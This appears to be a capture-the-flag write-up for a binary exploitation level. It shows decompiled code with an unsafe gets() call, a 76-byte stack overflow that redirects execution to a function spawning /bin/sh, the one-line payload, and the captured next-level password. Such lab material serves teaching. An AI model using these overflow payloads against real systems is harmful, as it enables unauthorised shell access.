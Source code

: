 ## Step 1: Static analysis

```c
08048444  int32_t run()
08048444  {
0804846d      fwrite("Good... Wait what?\n", 1, 0x13, stdout);
0804847f      return system("/bin/sh");
08048444  }
```

```c
08048480  int32_t main(int32_t argc, char** argv, char** envp)
08048480  {
08048496      void buf;
08048496      return gets(&buf);
08048480  }
```

### Explanation

The goal is to overwrite the return address in the stack with the address of the `run()` function (`0x08048444`), causing the program to execute the shell.

1. Determine the buffer size:
   - The size of `buf` (the buffer being overflowed) is 76 bytes before the saved return address.

2. Craft the payload:
   - Fill the buffer with 76 'A's to reach the return address.
   - Overwrite the return address with the address of `run()` (`0x08048444`), written in little-endian format as `'\x44\x84\x04\x08'`.

## Step 2: Exploit the Binary

```bash
python -c "print(('A' * 76) + '\x08\x04\x84\x44'[::-1])" > /tmp/exploit
cat /tmp/exploit - | ./level1
"Good... Wait what?"
% cd ../level2
% cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

The `cat /tmp/exploit - | ./level1` command sends the exploit payload to the program and keeps the input stream open for further interaction. The `-` ensures that after the payload is sent, the shell remains interactive, allowing you to execute commands.

Without `-`, the input stream would terminate after sending the payload, closing the shell immediately.

[StackOverflow: Why can't I open a shell from a pipelined process?](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)
